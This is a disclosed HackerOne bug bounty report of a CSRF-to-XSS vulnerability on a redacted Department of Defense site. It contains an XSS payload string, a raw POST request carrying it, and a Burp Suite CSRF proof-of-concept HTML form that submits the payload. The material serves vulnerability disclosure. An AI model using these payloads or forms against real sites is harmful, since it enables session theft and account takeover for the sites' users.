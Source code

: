 # CSRF to Cross-site Scripting (XSS)

## Report Details
- **Report ID**: 1118521
- **URL**: https://hackerone.com/reports/1118521
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-05T21:48:21.615Z
- **Disclosed**: 2021-03-24T20:26:46.451Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
hello dear support

I have found csrf to XSS on https://██████
my payload "><img src=x onerror=prompt``>;<video>
url: POST ██████████
post data answer=A"><img src=x onerror=prompt``>;<video>

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
http request 
==========
```
POST ███ HTTP/1.1
Host: ███
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://█████
Connection: close
Referer: https://████████████https:%2f%2f████%2f███████
█████████
Upgrade-Insecure-Requests: 1

answer=A%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E
```

Poc csrf

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████████████████https:%2f%2f████████%2f████████" method="POST">
      <input type="hidden" name="answer" value="A&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
